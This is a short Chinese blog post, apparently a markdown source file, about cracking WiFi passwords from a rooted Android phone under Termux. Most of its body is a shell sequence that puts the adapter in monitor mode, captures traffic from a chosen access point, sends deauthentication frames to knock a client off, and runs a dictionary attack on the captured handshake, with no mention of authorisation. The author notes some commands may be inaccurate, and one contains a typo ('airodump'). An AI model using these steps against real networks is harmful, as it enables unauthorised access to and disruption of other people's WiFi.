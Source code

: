 ```yaml
---
categories: [网络安全,WiFi,Android,Termux,aircrack-ng]
date: 2022-7-18 14:00
title: 使用安卓手机破解 WiFi
---
```


## 起因

[这位大佬的博客](https://rainchan.win/2021/08/09/%E4%B8%80%E5%8A%A0wifi%E5%97%85%E6%8E%A2%E5%8A%9F%E8%83%BD%E8%A7%A3%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)讲述了一个使用安卓手机抓取 WIFI 数据包的经历，我想用手里的*红米 K30 5G*与*小米 5*复现，于是有了这篇博文

以下内容均在*MIUI 12.5，安卓 10 的 红米 K30 5G*上完整复现，在此大概做个记录

*注意：执行以下操作需要手机获得 root 权限。*

## 正文

> `<>`表示需要根据实际情况更改的内容

```sh
pkg install wireless-tools iw tcpdump aircrack-ng ethtool pciutils -y # 有一些是不必要的，可以自行鉴别
# 进入 monitor 模式，抓取数据包并破解
# 此处的命令不一定准确，具体可以`aircrack-ng`为关键词自行搜索教程
tsu
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0
airodump -w <filenamePrefix> -c <channel> --bssid <bssid> wlan0 --ignore-negative-one
aireplay-ng -0 0 -a <bssid> -c <clientMac> --ignore-negative-one # 有发送数据包的输出，但被攻击端并未断开连接
aircrack-ng <filenamePrefix>-<xx>.cap -w <dictionaryPath>
 ```

```sh
# 退出
airmon-ng stop wlan0
```